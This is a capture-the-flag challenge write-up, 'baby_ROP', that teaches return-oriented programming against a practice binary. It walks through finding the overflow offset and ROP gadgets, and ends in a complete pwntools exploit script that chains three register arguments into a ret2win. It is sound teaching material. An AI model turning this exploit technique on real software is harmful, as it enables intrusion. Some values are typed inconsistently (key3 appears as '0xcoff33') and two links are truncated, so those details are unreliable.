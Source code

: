 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `jaaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

#### To find `treasureChest` function address:
```sh
$> objdump -d kid_ROP_bin | grep treasureChest
0000000000400727 <treasureChest>:
...
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rdi"
0x00000000004008c3 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rsi"
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep ": pop rdx"
0x00000000004007f7 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./kid_ROP_bin")
context.binary = "./kid_ROP_bin"

# ROP gadgets
pop_rdi = 0x4008c3 # pop rdi
pop_rsi = 0x4008c1 # pop rsi, pop r15
pop_rdx = 0x4007f7 # pop rdx 

# address of treasureChest 
win = 0x400727

# offer
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
kid_ROP.c
kid_ROP_bin

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- ttps://ctf101.org/binary-exploitation/return-oriented-programming/
- tps://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing


## Flag
TBD